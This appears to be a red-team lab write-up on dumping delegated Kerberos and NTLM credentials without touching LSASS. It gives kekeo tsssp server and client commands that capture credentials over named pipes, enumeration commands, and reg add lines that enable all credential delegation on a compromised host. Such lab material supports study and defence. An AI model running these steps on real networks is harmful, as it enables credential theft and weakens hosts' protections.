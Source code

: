 ```yaml
---
layout: post
title: "2024-06-18-dumping delegated default kerberos and ntlm credentials without touching lsass"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /dumping-delegated-default-kerberos-and-ntlm-credentials-without-touching-lsass/
---
```


# Dumping Delegated Default Kerberos and NTLM Credentials w/o Touching Lsass

This lab is related to dumping cached Kerberos and NTLM passwords without touching LSASS. This is possible due to Active Directory feature called Credentials Delegation.

## Credential Delegation

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

To illustrate - the below shows how a user spotless@offense attempts to access the termsrv/ws2.offense.local and is prompted to enter his credentials - this means credential delegation is not set for the termsrv (RDP) on ws02$ and therefore the machine ws02 does not accept delegated passwords, which results in a password prompt for the user.

```
Default Password is a currently logged on user's password.
```

![](<../../.gitbook/assets/Annotation 2019-08-20 224950.png>)

If the Credentials Delegation was enabled as shown below:&#x20;

![](<../../.gitbook/assets/Annotation 2019-08-20 225941.png>)

...the machines that are running a termsrv (RDP) service would now be allowed to authenticate users who are delegating their credentials.&#x20;

Below shows how the same user spotless is attempting to connect to RDP on ws02 and gets authenticated immediately without being prompted for the password - this means that the user's credenentials were delegated and the termsrv/ws2.offense.local accepted them due to the GPO change we described earlier whereby Credential Delegation was enabled:

![](../../.gitbook/assets/rdp-password-delegation.gif)

## Dumping Kerberos Credentials

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised workstation ws01 (running as SYSTEM):

{% code title="attacker@ws01.offense.local" %}
```
// needs to run as NT SYSTEM
tsssp::server
```
{% endcode %}

```
Kekeo on ws01 must be running as NT\SYSTEM for this to work
```

Now, let's connect to the tsssp server on ws01 from the target computer ws02 (we want currently logged on user's from ws02 credentials to be stolen by being sent to the tsssp server on ws01 over the named pipe):

{% code title="attacker@ws02.offense.local" %}
```
tsssp::client /target:termsrv/ws01.offense.local /pipe:\\ws01.offense.local\pipe\kekeo_tsssp_endpoint
```
{% endcode %}

![](../../.gitbook/assets/password-delegation-password-dump-via-named-pipes.gif)

## Dumping NTLM Credentials

The same technique applies to NTLM authentication. For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration > Policies > Administrative Templates > System > Credential Delegation:

![](<../../.gitbook/assets/image (156).png>)

Differently from dumping kerberos credentials, the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

Let's spin up the server on one console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::server
```
{% endcode %}

And connect to it from another console:

{% code title="attacker@ws02" %}
```
// running as ws02\spotless
tsssp::client /target:termsrv/ws02.offense.local
```
{% endcode %}

Below shows (left) a tsssp server is created on the ws02 system running under spotless user's context. On the right, another console running as ws02\spotless which is then connected to the `\\.\pipe\kekeo_tsssp_endpoint` named pipe, revealing user's `ws02\spotless` NTLM credentials in the console running tsssp server on the left:

![](<../../.gitbook/assets/image (155).png>)

## Enumerating Delegated Credentials Locally

Once on the box, we can check if credential delegation is turned on:

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

Below shows what credential delegation is enabled on the system (represented with 0x1):

![](<../../.gitbook/assets/image (157).png>)

We can then check what SPNs accept delegated credentials:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials
```

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

![](<../../.gitbook/assets/image (158).png>)

## Enumerating Delegated Credentials via AD

```csharp
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

![](<../../.gitbook/assets/image (159).png>)

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```
Get-NetGPO -UserIdentity spotless
```

![](<../../.gitbook/assets/image (161).png>)

and then parse the policy file:

```
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

![](<../../.gitbook/assets/image (160).png>)

## Enabling Credential Delegation

If you have admin rights on the compromised box, you can enable all credential delegation like so:

{% code title="attacker@target" %}
```csharp
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"

# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
{% endcode %}

## References

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

{% embed url="https://github.com/PowerShell/GPRegistryPolicyParser" %}
@spotheplanet
